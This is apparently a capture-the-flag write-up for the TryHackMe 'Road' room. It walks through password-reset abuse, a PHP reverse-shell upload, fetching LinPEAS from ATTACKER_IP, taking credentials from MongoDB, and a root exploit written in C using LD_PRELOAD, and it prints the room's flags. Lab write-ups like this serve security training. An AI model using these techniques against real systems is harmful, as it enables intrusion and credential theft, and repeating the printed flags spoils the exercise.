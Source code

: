 # TryHackMe — Road (Medium) Write-up

##  Overview
- **Room:** Road  
- **Difficulty:** Medium  
- **Target IP:** xxx.xxx.xxx.xxx  

In this room, I exploited a vulnerable web application and leveraged a misconfigured MongoDB service to gain SSH access, finally escalating privileges to root through an LD_PRELOAD misconfiguration.  

---

##  Enumeration
We start with a full port scan:  

```bash
sudo nmap -sC -sV -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- **22/tcp → SSH**  
- **80/tcp → HTTP**

---

##  Web Enumeration
On port 80, the website displayed a basic "Sky" page.  

Directory brute force with Gobuster:  

```bash
gobuster dir -u http://xxx.xxx.xxx.xxx -w /usr/share/wordlists/dirb/common.txt
```

**Found:**
- `/phpmyadmin`
- `/index.php`
- `/v2` → redirected to `/v2/admin/login.html`

---

##  Exploitation
At `/v2/admin/login.html`, I found a login form with registration enabled.  

### Step 1 — Registration
I registered a new account and logged in. In the profile section, there was an option to **upload an image**.  

### Step 2 — Password reset abuse
I discovered the email `admin@sky.thm`. Using **Burp Suite**, I intercepted the password reset request and changed my email parameter to `admin@sky.thm`.  

This gave me **admin access**.  

### Step 3 — File upload RCE
I uploaded a **PHP reverse shell** from PentestMonkey.  

Listener:  
```bash
nc -lvnp 4444
```

Shell uploaded to `/v2/profileimages/shell.php` → accessed in browser:  

```
http://xxx.xxx.xxx.xxx/v2/profileimages/shell.php
```

Shell obtained as `www-data`.  

To stabilize:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

##  Privilege Escalation

### Step 1 — www-data → webdeveloper
I uploaded **LinPEAS**:  

```bash
wget http://ATTACKER_IP/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

It revealed MongoDB. Connected locally:  

```bash
localhost mongo
show databases
use backup
db.user.find()
```

**Credentials found:**  
- User: `webdeveloper`  
- Password: `BahamasChapp123!@#`  

SSH login:  
```bash
ssh webdeveloper@xxx.xxx.xxx.xxx
```

---

### Step 2 — webdeveloper → root
Check sudo:  
```bash
sudo -l
```

Found: `/usr/bin/sky_backup_utility` with **LD_PRELOAD** enabled.  

Exploit:  

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

Compile:  
```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
```

Run:  
```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

→ Root shell obtained  

---

##  Flags
```bash
cat /home/webdeveloper/user.txt
```
**User flag:** `63191e4ece37523c9fe6bb62a5364d45`  

```bash
cat /root/root.txt
```
**Root flag:** `3a62d897c40a815ecbe267df2f533ac6`  

---

##  Lessons Learned
- Always validate password reset logic.  
- Sanitize and restrict file uploads.  
- Do not expose MongoDB without authentication.  
- Remove dangerous sudo configurations like `env_keep+=LD_PRELOAD`.  

---

##  Conclusion
This machine clearly demonstrates **attack chaining**:  
1. Weak password reset → admin access  
2. File upload → RCE (www-data)  
3. MongoDB misconfig → SSH creds (webdeveloper)  
4. LD_PRELOAD misconfiguration → root  

Final result → **Full compromise of the system**.
